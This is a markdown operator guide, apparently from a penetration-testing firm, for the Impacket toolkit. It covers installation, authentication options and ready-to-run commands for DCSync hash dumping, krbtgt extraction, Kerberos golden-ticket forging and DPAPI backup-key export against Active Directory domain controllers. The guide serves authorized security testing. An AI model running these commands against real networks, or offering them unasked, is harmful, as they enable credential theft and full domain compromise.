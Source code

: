 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Impacket
## References
* The Hacker Tools: Impacket -<br />[https://tools.thehacker.recipes/impacket](https://tools.thehacker.recipes/impacket)

## Installation

* <details><summary>Process (Click to expand)</summary><p>
	1. Git Clone

			git clone https://github.com/secureauthcorp/impacket.git
	1. Enter directory

			cd impacket
	1. Create virtual environment

			pipenv shell
	1. Install with setup.py

			python setup.py install
		* Alternative

				pip install .
	1. Confirm no remaining libraries were missed with requirements.txt

			pip install -r requirements.txt

## General Usage

* <details><summary>General usage notes to avoid duplicating this information across tools (Click to expand)</summary><p>
	* Password authentication

			python examples/toolname.py domain.local/username@target-name-or-IP
		* Submit password once executed
		* Non-opsec format

				python examples/toolname.py domain.local/username:P@ssw0rd@target-name-or-IP
	* NTLM Hash authentication

			python examples/toolname.py domain.local/username:P@ssw0rd@target-name-or-IP -hashes :<ntlm-hash>
	* Kerberos Authentication
		* Notes
			* Linux
				* Set the kerberos ticket in your environment before usage.

						export KRB5CCNAME='administrator.ccache'
		* Format

				python examples/toolname.py domain.local/username@target-name-or-IP -k -n
	* Relay Authentication
		* See AD Relay guide for additional context

				python examples/toolname.py domain.local/username@target-name-or-IP -n

### Notes on specific tools

* <details><summary>secretsdump.py (Click to expand)</summary><p>
	* Commands beyond general impacket tool usage
		* Target a specific user (KRBTGT)

				secretsdump.py -just-dc-user DOMAIN/krbtgt 'DOMAIN/user1234:PASSWORD@192.168.1.1'
			* If you receive an error, check that the **ntds.dit** file (and associated registry hives) are in their default locations.

					C:\>reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
	* Specify custom NTDS location (note the forward slashes)
		
			secretsdump.py -ntds 'D:/Windows/NTDS/ntds.dit' -just-dc-user angela -k 'evilcorp.local/administrator@dc01.evilcorp.local'
	* DCSync
		* Receive all the NTLM hashes from a DC

				secretsdump.py 'DOMAIN/DomainAdmin:PASSWORD@domaincontroller.evilcorp.local'
	* If the user you control is restricted from logging in to CIFS-based services ("STATUS_ACCOUNT_RESTRICTION" on login), you can bypass the restriction by pulling the `krbtgt` hash with `getST.py`, then following the 'Impacket Golden Key Generation' steps below:

			getST.py -spn krbtgt -hashes :e19ccf75ee54e06b06a5907af13cef42 evilcorp.local/angela
			export KRB5CCNAME=$(pwd)/angela.ccache
			secretsdump.py -k -no-pass dc01.evilcorp.local -just-dc-user krbtgt
* <details><summary>lookupsid.py (Click to expand)</summary><p>
	* Get SID using Impacket

			lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:<NTLMHASH> DOMAIN/user@domain.com -domain-sids
* <details><summary>ticketer.py (Click to expand)</summary><p>
	* Notes
		* Impacket Generate Ticket To File
	* Requirements
		* FQDN
		* Name resolution of the domain to target IP address
			* Option 1: Edit the /etc/hosts file

					192.168.1.1     DOMAIN.COM
	* Process
		1. Launch ticketer.py. This will create a administrator.ccache file.

				python ticketer.py -nthash KRBTGTHASH -domain-sid S-1-5-21-XXXXXXXX-XXXXXXX-XXXXXX -domain TESTDOMIN.LOC USERXXX
			* Troubleshooting
				* Error `KDC_ERR_ETYPE_NOSUPP`
					* RC4 authentication is disabled for kerberos tickets
					* Instead, use `-aesKey` instead of `-nthash` and replace with the `krbtgt AES256 key`
* <details><summary>dpapi (Click to expand)</summary><p>
	* Notes
		* Dumping Domain DPAPI Backup key Using Impacket
	* Process
		* Password:

				dpapi backupkeys -t 'domain.com/user1234@domaindc.domain.com' --export
		* Hashes

				* dpapi -hashes LM:NTLM backupkeys -t 'domain.com/user1234@domaindc.domain.com' --export
		* Golden key (You must press enter for a blank password)

				dpapi -k backupkeys -t 'domain.com/user1234@domaindc.domain.com' --export